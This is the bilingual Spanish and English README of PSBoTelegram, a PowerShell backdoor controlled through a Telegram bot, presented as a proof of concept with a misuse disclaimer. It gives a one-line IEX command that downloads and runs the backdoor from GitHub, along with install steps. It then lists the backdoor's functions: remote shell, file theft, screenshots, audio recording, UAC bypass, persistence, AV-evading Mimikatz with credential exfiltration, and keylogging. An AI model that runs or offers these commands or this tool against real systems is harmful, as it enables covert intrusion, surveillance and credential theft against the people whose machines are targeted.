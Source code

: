

# PsBoTelegram
Backdoor using Telegram and Powershell. Por favor, usad sólo vuestros equipos para las pruebas.  
No me hago responsable de un mal uso del software. Rercordad que esto sólo es una prueba de concepto.  

Podeis probar el script abriendo una consola de powershell y ejecutando este comando:

**IEX (curl "https://raw.githubusercontent.com/Hackplayers/PSBoTelegram/master/PSBoTelegram.ps1" ).content**&nbsp;&nbsp;

        ____  _____ ____      ______     __
       / __ \/ ___// __ )____/_  __/__  / /__   ____ __________ _____ __
      / /_/ /\__ \/ __  / __ \/ / / _ \/ / _ \/ __  / ___/ __  / __  __ \
     / ____/___/ / /_/ / /_/ / / /  __/ /  __/ /_/ / /  / /_/ / / / / / /
    /_/    /____/_____/\____/_/  \___/_/\___/\__, /_/   \__,_/_/ /_/ /_/
                                            /____/

                                                     v0.8 by CyberVaca @ HackPlayers

PSBotTelegram es un script escrito en Powershell, que nos crea una backdoor que se conecta a un BOT de Telegram. El BOT se controlará por mensajes de Telegram. Al ejecutar el script nos va a pedir tres datos necesarios para crear el shellcode. 

# Instalación en Linux

    git clone https://github.com/hackplayers/psbotelegram.git
    cd psbotelegram
    sudo apt-get update > /dev/null
    sudo apt-get install libunwind8 libicu55 
    wget https://github.com/PowerShell/PowerShell/releases/download/v6.0.0-alpha.13/powershell_6.0.0-alpha.13-1ubuntu1.16.04.1_amd64.deb
    sudo dpkg -i powershell_6.0.0-alpha.13-1ubuntu1.16.04.1_amd64.deb
    powershell ./PSBoTelegram.ps1

# Instalación en Windows

    Powershell.exe ./PSBotelegram.ps1
    
Los datos que nos pide son los siguientes:  

# Parametros
![Parametros](./images/parametros.png)  
 
**[+] Introduzca el Token del Bot de Telegram:** "Aquí deberemos poner el Token del bot que hayamos creado."  
**[+] Introduzca su Chat ID:** "Aquí deberemos poner nuestro ID de Telegram."  
**[+] Introduzca el delay para la conexión:** "En este campo seteamos el delay(retardo) entre en pc con el backdoor y nuestro chat de telegram"   

# Salidas de archivo:
![Salidas](./images/OutFiles.png)  

Una vez introducido estos datos, nos creará un shellcode en BASE64 en un tipo de archivo seleccionado para ejecutarlo en el equipo a auditar.  

# Funciones del backdoor.

[1]&nbsp;&nbsp;&nbsp;**/Help**&nbsp;&nbsp; (Nos muestra la ayuda)  
[2]&nbsp;&nbsp;&nbsp;**/Info**&nbsp;&nbsp; (Devuelve información sobre el equipo)   
[3]&nbsp;&nbsp;&nbsp;**/Shell**&nbsp;&nbsp; (/Shell + CmdLet a ejecutar )  
[4]&nbsp;&nbsp;&nbsp;**/Whoami**&nbsp;&nbsp; (Devuelve el usuario que ejecutó el codigo)  
[5]&nbsp;&nbsp;&nbsp;**/Ippublic**&nbsp;&nbsp; (Nos da IP publica, Pais y Ciudad del Target)  
[6]&nbsp;&nbsp;&nbsp;**/Kill**&nbsp;&nbsp; (Mata el backdoor)  
[7]&nbsp;&nbsp;&nbsp;**/Scriptimport**&nbsp;&nbsp; (Importa el script de powershell pasandole una url)  
[8]&nbsp;&nbsp;&nbsp;**/Shell nc (netcat)**&nbsp;&nbsp; (Función de powercat https://github.com/besimorhino/powercat
)  
[9]&nbsp;&nbsp;&nbsp;**/Download**&nbsp;&nbsp; (Download mas ruta nos descarga el archivo)  
[10]&nbsp;&nbsp;**/Screenshot**&nbsp;&nbsp; (Realiza screenshot y nos lo envia)  
[11]&nbsp;&nbsp;**/Audio**&nbsp;&nbsp; (/Audio X, Grabaría X segundos de audio y nos lo envia)  
[12]&nbsp;&nbsp;**/BypassUAC**&nbsp;&nbsp; (Ejecuta el Bot con privilegios administrativos)  
[13]&nbsp;&nbsp;**/Persistence**&nbsp;&nbsp; (/Persistence ON/OFF)  
[14]&nbsp;&nbsp;**/MimiGatoz**&nbsp;&nbsp; (Ejecuta Mimikatz modificado para el bypass AV y nos envia los datos)  
[15]&nbsp;&nbsp;**/Keylogger-Selective**&nbsp;&nbsp; (Ejecuta un Keylogger selectivo, ejemplo /keylogger-Selective Facebook)  
[16]&nbsp;&nbsp;**/Mimikittenz**&nbsp;&nbsp; (Ejecuta Mimikittenz, comprobando si el equipo es vulnerable y si no lo es, lo hace vulnerable... )  


# PsBoTelegram English 
Backdoor using Telegram and Powershell. Please use only your test equipment.
I am not responsible for any misuse of the software. Make sure this is only a proof of concept. 

You can test the script by opening a powershell console and running this command:

**IEX (curl "https://raw.githubusercontent.com/Hackplayers/PSBoTelegram/master/PSBoTelegram.ps1" ).content**&nbsp;&nbsp;


        ____  _____ ____      ______     __
       / __ \/ ___// __ )____/_  __/__  / /__   ____ __________ _____ __
      / /_/ /\__ \/ __  / __ \/ / / _ \/ / _ \/ __  / ___/ __  / __  __ \
     / ____/___/ / /_/ / /_/ / / /  __/ /  __/ /_/ / /  / /_/ / / / / / /
    /_/    /____/_____/\____/_/  \___/_/\___/\__, /_/   \__,_/_/ /_/ /_/
                                            /____/

                                                     v0.8 by CyberVaca @ HackPlayers

PSBotTelegram is a script written in Powershell, which creates a backdoor that connects to a Telegram BOT. The BOT will be controlled by Telegram messages. When executing the script we will ask for three data needed to create the shellcode.

# Install in Linux

    git clone https://github.com/hackplayers/psbotelegram.git
    cd psbotelegram
    sudo apt-get update > /dev/null
    sudo apt-get install libunwind8 libicu55 
    wget https://github.com/PowerShell/PowerShell/releases/download/v6.0.0-alpha.13/powershell_6.0.0-alpha.13-1ubuntu1.16.04.1_amd64.deb
    sudo dpkg -i powershell_6.0.0-alpha.13-1ubuntu1.16.04.1_amd64.deb
    powershell ./PSBoTelegram.ps1

# Install in Windows

    Powershell.exe ./PSBotelegram.ps1
    
The data that asks us are the following:

# Parametres
![Parametros](./images/parametros.png)  
 
**[+] Enter the Telegram Bot Token:** "Here we have to put the Token of the bot we have created."  
**[+] Enter your Chat ID:** "Here we have to put our Telegram ID."  
**[+] Enter the delay for the connection:** "In this field we set the delay between pc in the backdoor and our telegram chat"   

# Backdoor functions

[1]&nbsp;&nbsp;&nbsp;**/Help** (Show us the help)  
[2]&nbsp;&nbsp;&nbsp;**/Info** (Returns information about the equipment)  
[3]&nbsp;&nbsp;&nbsp;**/Shell** (/ Shell + CmdLet to run)  
[4]&nbsp;&nbsp;&nbsp;**/Whoami** (Returns the user who ran the code)  
[5]&nbsp;&nbsp;&nbsp;**/Ippublic** (We give IP publica, Country and Target City)  
[6]&nbsp;&nbsp;&nbsp;**/Kill** (Kill the backdoor)  
[7]&nbsp;&nbsp;&nbsp;**/Scriptimport** (Import the powershell script by passing it a url)  
[8]&nbsp;&nbsp;&nbsp;**/Shell nc (netcat)** (Powercat function https://github.com/besimorhino/powercat)  
[9]&nbsp;&nbsp;&nbsp;**/Download** (Download more path to download the file)  
[10]&nbsp;&nbsp;&nbsp;**/Screenshot** (Make screenshot and send it to us)  
[11]&nbsp;&nbsp;&nbsp;**/Audio** (/Audio X, Record X seconds of audio and send it to us)  
[12]&nbsp;&nbsp;&nbsp;**/BypassUAC** (Runs the bot with administrative privileges)  
[13]&nbsp;&nbsp;&nbsp;**/Persistence** (/ Persistence ON / OFF)  
[14]&nbsp;&nbsp;&nbsp;**/MimiGatoz** (Run modified Mimikatz for AV bypass and send us the data)  
[15]&nbsp;&nbsp;&nbsp;**/Keylogger-Selective** (Executes a Selective Keylogger, example /keylogger-Selective Facebook)  
[16]&nbsp;&nbsp;&nbsp;**/Mimikittenz** (Mimikittenz runs, checking if the computer is vulnerable and if it is not, it makes it vulnerable ...)  



